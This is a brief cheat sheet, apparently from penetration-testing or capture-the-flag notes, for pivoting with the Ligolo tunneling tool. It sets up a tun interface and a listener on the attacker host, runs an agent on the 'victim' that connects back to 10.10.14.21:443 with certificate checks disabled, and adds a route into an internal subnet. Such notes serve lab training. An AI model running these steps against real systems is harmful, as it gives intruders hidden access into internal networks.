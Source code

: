 ### Host Machine

```
sudo ip tuntap add user p3ta mode tun ligolo 
```

```
sudo ip link set ligolo up
```

```
sudo ./proxy -selfcert -laddr 0.0.0.0:443
```

```
sudo ./proxy -selfcert -laddr 0.0.0.0:443
```

### On Victim Machine

```
./agent -connect 10.10.14.21:443 -ignore-cert
```

### On Host Machine

```
sudo ip route add 172.16.1.0/24 dev ligolo
```